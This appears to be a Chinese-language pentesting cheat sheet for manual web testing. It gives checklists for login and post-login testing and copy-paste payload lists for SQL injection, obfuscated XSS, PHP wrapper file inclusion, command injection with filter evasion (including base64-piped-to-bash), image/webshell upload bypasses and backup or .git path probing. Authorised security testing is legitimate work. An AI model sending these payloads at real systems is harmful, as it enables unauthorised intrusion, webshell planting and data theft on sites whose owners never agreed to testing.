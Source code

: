 # 手工测试

## 1.1 前言

在渗透测试过程中遇到一些客户不能让使用扫描器进行扫的（系统较老啥的奇奇怪怪的要求），包括xray也不让用，只能开个burp测试的，还有就是客户是在内网的不方便装工具什么的提供一个裸机给你的。或者其他奇奇怪怪要求只能手工测试的，比如吧使用sql注入，如果只是单纯的测试and 1=1，感觉太简单了，容易测漏。所以就列一个测试payload清单放在这里，就是测试的时候挨个复制粘贴看一下结果。



## 1.2 登录框测试

1.弱口令测试。

2.验证码绕过测试。

3.修改响应包绕过登录测试等非授权访问测试。

4.手机验证码绕过测试（逻辑漏洞测试）。

5.注册一个账号测试。

6.注册的逻辑漏洞测试。

7.登录框的SQL注入测试（虽然基本不太可能有了）。

## 1.3 登录后（或不需要登录）

1.登录后的SQL注入。

2.修改头像或者能上传文件的地方进行文件上传测试。

3.能读取文件或包含文件的地方进行文件读取，目录穿越，文件包含（包括伪协议测试）。

4.能直接通过修改模板等插入代码的，尝试插入一句话木马。

5.能备份文件的，尝试通过备份来备份一句话木马。

6.有日志记录可以结合文件包含的，可以通过在地址栏中访问构造的一句话木马，在包含日志。

7.命令执行类功能的地方，比如ping之类的，测试一下命令执行。

8.类似ftp功能的地方，可以尝试一下目录穿越，看看能不能穿越到没有权限的目录从而读取文件。（总之就是根据功能点进行测试对应的漏洞。）

9.根据cms或者系统找对应的历史nday进行测试。

10.越权测试。

11.任意用户密码修改测试。

## 1.4 SQL注入测试payload

```
-1

'

and true=true --+

&& true=true #

or 656323=656323 --+

and sleep(3) #

waitfor delay '0:0:5'--

%df%27and true --+

1鎈'"\(

'and/**/extractvalue(1,concat(char(126),md5(56423645)))and'                      #c1077208a8ff487fae85e7d0b5293504

'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

## 1.5 xss测试payload

```
<ScRiPt>alert(1)</sCrIpT>

<ImG sRc=1 OnErRoR=prompt(1)>

"-prompt(1)-"

"oNmOuSeOvEr=prompt(1)//

<sc<!--test-->ript>alert('1')</scr<!--tshauie-->ipt>

javascript:alert(1111)

<svg><script>alert(XSS);</script>
```

## 1.6 文件包含测试

1.测试远程文件包含。

2.尝试本地上传图片或其他格式的文件，结合文件包含进行利用。

3.为协议需要allow_url_fopen与allow_url_include同时开启，鸡肋。

```
php://filter/convert.base64-encode/resource=

php://input # POST数据包写一句话木马。

data://text/plain,<?php phpinfo();?>

data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=

phar://xxx/x.php

zip://xxx/b.php
```

## 1.7 命令执行payload

```
;whoami
|whoami
||whoami
&whoami
&&whoami

tips:
${IFS} # 替换空格。
%09 # 替换空格，前提PHP环境。
echo d2hvYW1pCg== | base64 -d | bash 
a=c;b=a;c=t;$a$b$c file1
cat<>file1
cat<file1
c''"at" file1 
```

## 1.8 文件上传

1.先使用copy /b a.jpg b.php s.jpg

2.上传s.jpg，抓包修改后缀为php，send发送测试。（这样做的好处是，绕过了前端验证，保证MIME为jpg，绕过了Content-type验证，因为是copy生产的图片，是可以正常打开成图片的，因此可以绕过php通过获取图像长宽进行的验证，还可以绕过验证文件头进行的验证。）

3.不行就改改后缀，如Windows下使用php.或者php空格进行尝试。

4.在不行就多加一下filename=aaa.jpg;filename=aaa.jpg;filename=aaa.jpg;filename=a.php或者使用垃圾字符进行填充。

5.再不行就后缀名换行。

（其他语言同理。）



## 1.9 目录扫描

如果是手工测试的话，为了测试的全面主要是看一下有没有网站备份或者是其他敏感文件或者是git泄露之类的，不需要像dirsearch一样详细的扫目录。

```
www.zip
www.rar
www.zip
www.7z
www.tar.gz
www.tar
web.zip
web.rar
web.zip
web.7z
web.tar.gz
web.tar
.git/HEAD
.git/config
.DS_store
.svn
admin
admin.php
db.sql
manager/
```

